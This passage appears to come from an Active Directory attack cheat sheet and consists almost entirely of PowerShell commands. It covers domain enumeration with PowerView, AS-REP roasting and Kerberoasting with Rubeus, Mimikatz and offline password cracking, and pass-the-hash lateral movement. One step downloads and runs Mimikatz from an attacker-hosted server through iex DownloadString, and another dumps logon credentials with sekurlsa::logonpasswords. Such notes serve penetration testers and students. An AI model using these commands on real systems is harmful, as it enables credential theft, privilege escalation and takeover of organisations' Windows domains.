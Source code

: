 ```powershell
Get-NetGroup -username "USERNAME"
Get-NetGroupMember "GROUPNAME"
Find-DomainShare -ComputerName COMPUTERNAME -verbose
Get-NetShare
Get-NetGPO
Get-NetOU
Get-NetDomainTrust
Get-NetForest
Get-NetForestDomain
```

---

## Privilege Escalation

### AS-REP Roasting
```powershell
powershell -ep bypass
.\PowerView.ps1
Get-Domainuser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
# Then use samaccountname with:
.\Rubeus.exe asreproast /user:USERNAME /outfile:hash.txt
.\john.exe .\PATH_TO_HASHFILE --format=krb5asrep --wordlist=10k-worst-pass.txt
```

### Kerberoasting
```powershell
powershell -ep bypass
.\PowerView.ps1
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */*

# SPN TGT request
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SPN"

# Export and crack
.\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command 'Kerberos::list /export'
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\TICKETFILE
```

---

## Lateral Movement

### Pass the Hash
```powershell
powershell -ep bypass
.\PowerView.ps1
Get-Domain
Find-LocalAdminAccess
Enter-PSSession PCNAME

# Upload Mimikatz & TokenManipulation via HFS
iex (New-Object Net.WebClient).DownloadString('HFSIP/FileName')

Invoke-TokenManipulation -Enumerate
Invoke-Mimikatz -Command '"privilege::debug" "token:elevate" "sekurlsa::logonpasswords"'

#Invoke-Mimikatz -Command '"privilege::debug"
```